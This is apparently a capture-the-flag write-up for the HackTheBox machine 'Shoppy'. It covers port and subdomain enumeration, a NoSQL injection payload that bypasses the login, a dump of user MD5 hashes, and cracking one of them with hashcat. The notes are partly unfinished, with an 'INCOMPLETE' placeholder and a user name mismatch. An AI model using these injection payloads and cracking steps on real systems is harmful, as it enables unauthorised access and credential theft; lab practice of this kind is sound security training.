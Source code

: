 # Shoppy

### Machine IP
```
10.10.11.180
```

### nmap scan
Scanning for open ports and services
```
nmap -sC -sV -Pn -T4 10.10.11.180
```

Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title:             Shoppy Wait Page        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports 22 (ssh) and 80 (http) are open!


### gobuster scan
Scanning for subdirectories
```
gobuster dir -w wordlists/dirbuster/directory-list-2.3-small.txt -u http://shoppy.htb
```

Results:
```
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
```

### ffuf scan
Scanning for subdomains

```
sudo ffuf -c -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" --fc 301
```

Found one subdomain

```
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 219ms]
```

### mattermost.shoppy.htb

Adding to /etc/hosts in vim:
```
10.10.11.180	shoppy.htb mattermost.shoppy.htb
```

Seems to be another login form...

### sqlmap
Scanning the login page:
```
sqlmap -r post.txt -p username --level 5 --risk 3 --threads 10
```

Connection times out...ineffective

### Manual sqli

Attempting a login with:
```
Username: admin' or 1=1 --
Password: admin
```

The username portion would resolve to:

```
SELECT * FROM users WHERE username = 'admin' OR 1=1-- ' 
```

...in the case of injection. The password really doesnt matter.


Page taking a long time to load...
Results in a 504 Gateway timeout

Let's try NoSQLi

### Manual NoSQLi

Attempting a login with:
```
Username: admin'||'1==1
Password: cheese
```

The username portion would resolve to:

```
INCOMPLETE
```

...in the case of injection. The password really doesnt matter.

RESULT! We are logged in!


### Exploring the Admin page
Weve been redirected to:
```
http://shoppy.htb/admin
```

Here, we can search for users. So let's search for "admin'||'1==1".

We get an exported json file with the information:
```
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  },
  {
    "_id": "62db0e93d6d6a999a66ee67b",
    "username": "josh",
    "password": "6ebcea65320589ca4f2f1ce039975995"
  }
]
```

The passwords are stored as MD5 hashes...let crack them!

### Hashcat

Trying to crack the following hashes with hashcat...
```
23c6877d9e2b564ef8b32c3a23de27b2
6ebcea65320589ca4f2f1ce039975995
```

Command:

```
hashcat -m 0 -a 0 -o cracked_hashes hashes /usr/share/wordlists/rockyou.txt
```

`-m`: type of hash (0 represents MD5)

`-a`: type of attack (0 represents dictionary attack)

Complete...
cracked_hashes file:
```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

This has appears to be for user "John"
